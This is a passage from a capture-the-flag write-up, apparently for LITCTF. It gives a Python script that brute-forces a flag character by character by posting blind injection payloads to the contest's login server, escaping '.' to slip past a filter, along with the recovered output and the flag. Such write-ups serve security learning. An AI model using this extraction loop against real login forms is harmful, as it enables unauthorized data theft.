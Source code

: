 ```py
    for j in chars:
        if j == '.': payload = payload1 + str(i) + payload2 + '\\x2e' + payload3 # make sure to circumvent the . filter!
        else: payload = payload1 + str(i) + payload2 + j + payload3 # the full payload we're sending
        r = requests.post('http://litctf.live:31781/', data={'username':'', 'password':payload}) # send payload to main server
        if r.text.find("True") != -1:
            # we found the correct character!
            print(f"Character at position {i} is {j}")
            foundMatch = True
            i += 1
            break
    if not foundMatch:
        # we didn't find a match this iteration, so the flag must be done
        break
```

(If you get an error in the middle of the Python script, just modify `i` to be the index that it errored at and try again.)

After some patience and restarts of the program, we get this:

```
Character at position 1 is L
Character at position 2 is I
Character at position 3 is T
Character at position 4 is C
Character at position 5 is T
Character at position 6 is F
Character at position 7 is {
Character at position 8 is f
Character at position 9 is l
Character at position 10 is u
Character at position 11 is s
Character at position 12 is h
Character at position 13 is 3
Character at position 14 is d
Character at position 15 is _
Character at position 16 is 3
Character at position 17 is m
Character at position 18 is 0
Character at position 19 is j
Character at position 20 is i
Character at position 21 is _
Character at position 22 is o
Character at position 23 is .
Character at position 24 is 0
Character at position 25 is }
```

...from which we can just read off our flag.

*Fun fact:* In contest, we initially used `FIND` instead of `SUBSTR`. Also, we forgot to circumvent the `.` filter in the Python solve script. These two mistakes combined made us solve the problem about 24 hours later than we should have.

## Flag

`LITCTF{flush3d_3m0ji_o.0}`
